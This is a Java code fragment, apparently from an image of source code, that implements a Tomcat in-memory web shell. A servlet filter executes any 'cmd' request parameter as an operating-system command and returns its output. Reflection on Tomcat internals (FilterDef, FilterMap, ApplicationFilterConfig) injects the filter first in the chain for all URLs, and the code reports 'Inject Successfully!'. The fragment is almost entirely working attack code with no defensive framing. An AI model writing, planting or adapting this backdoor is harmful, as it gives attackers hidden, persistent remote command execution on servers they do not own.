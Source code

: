 ```java

                        HttpServletRequest httpServletRequest = (HttpServletRequest) servletRequest;
                        if (httpServletRequest.getParameter("cmd") != null) {
                            InputStream inputStream = Runtime.getRuntime().exec(httpServletRequest.getParameter("cmd")).getInputStream();
                            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
                            String output = scanner.hasNext() ? scanner.next() : "";
                            servletResponse.getWriter().write(output);
                            return;
                        }
                        filterChain.doFilter(servletRequest, servletResponse);
                    }

                    @Override
                    public void destroy() {

                    }
                };

                Class<?> FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
                Constructor filterDefDeclaredConstructor = FilterDef.getDeclaredConstructor();
                FilterDef filterDef = (FilterDef) filterDefDeclaredConstructor.newInstance();
filterDef.setFilter(filter);
                filterDef.setFilterName(FilterName);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                Class<?> FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                Constructor filterMapDeclaredConstructor = FilterMap.getDeclaredConstructor();
                FilterMap filterMap = (FilterMap) filterMapDeclaredConstructor.newInstance();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(FilterName);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                standardContext.addFilterMapBefore(filterMap);

                Class<?> ApplicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
                Constructor<?> applicationFilterConfigDeclaredConstructor = ApplicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
                applicationFilterConfigDeclaredConstructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef);
                filterConfigs.put(FilterName, filterConfig);

                response.getWriter().write("Inject Successfully!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
